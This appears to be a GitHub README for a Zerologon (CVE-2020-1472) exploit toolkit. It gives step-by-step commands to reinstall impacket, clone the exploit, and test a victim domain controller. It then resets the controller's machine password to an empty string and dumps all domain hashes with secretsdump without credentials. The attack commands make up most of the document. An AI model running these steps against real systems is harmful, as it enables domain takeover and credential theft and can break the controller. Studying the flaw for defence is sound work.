 # Zerologon
Set of scripts, to test and exploit the zerologon vulnerability (CVE-2020-1472)

<br>
<img src="https://imgur.com/N5X7OA6.png" alt="banner"/>

***

# What is it?

ZeroLogon is a vulnerability that allows us to exploit a cryptography flaw in Microsoft's Active Directory Netlogon Remote Protocol (MS-NRPC), which allows users to log in to servers using NTLM. 

***

# Previous steps 

Before executing the exploit we must know that we need a different version of impacket, for this we will do the following. 

``apt remove --purge impacket-scripts python3-impacket``

``git clone https://github.com/SecureAuthCorp/impacket.git``

``cd impacket``

``pip install .``

***

# PoC (Proof Of Concept)

``git clone https://github.com/Nekoox/zerologon.git``

``cd zerologon``

``pip install -r requirements.txt``

## Check if the victim domain controller is vulnerable to zerologon.

``python3 tester.py <DC-NAME> <ip-address>``

In the event that the victim DC is vulnerable, a message will appear saying "Success! DC can be fully compromised by a Zerologon attack." 

Otherwise, that is, the victim DC is not vulnerable because the security hole has been patched, we will get the following message "Attack failed. Target is probably patched." 

***

## Change the password of the vulnerable domain controller to an empty string. 

``python3 empty_pw.py <DC-NAME> <ip-address>``

If the Domain Controller is vulnerable, after running the exploit it should not have any password. 


## Dump hashes of the Domain Controller. 

``secretsdump.py -just-dc <DC-NAME>\$@<ip-address>``

By executing this, we will be able to see all the hashes of the domain, without any credentials. 

